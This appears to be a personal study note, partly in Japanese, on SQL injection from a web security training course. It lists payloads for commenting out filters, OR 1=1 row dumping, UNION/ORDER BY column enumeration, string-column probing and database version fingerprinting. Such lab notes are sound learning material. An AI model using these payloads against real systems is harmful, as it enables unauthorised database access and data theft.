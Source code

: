 Date: 2025-09-12
Tags: 
Links: [[WSA]], [[SQL]]
***

**コメントアウトで後の条件を無視**
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

**OR 1=1で全てを取得**
```sql
SELECT * 
FROM products 
WHERE category = 'Gifts' OR 1=1
--' AND released = 1
```
ORはWHERE句にかかっている。

**Determining the number of columns required**
```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3--
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL--
```

**Finding columns with a useful data type**
```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

**Querying the database type and version**
```sql
SELECT @@version--Microsoft, MySQL
SELECT * FROM v$version --Oracle
SELECT version()--PostgreSQL
```
versionは文字列型


***
# References
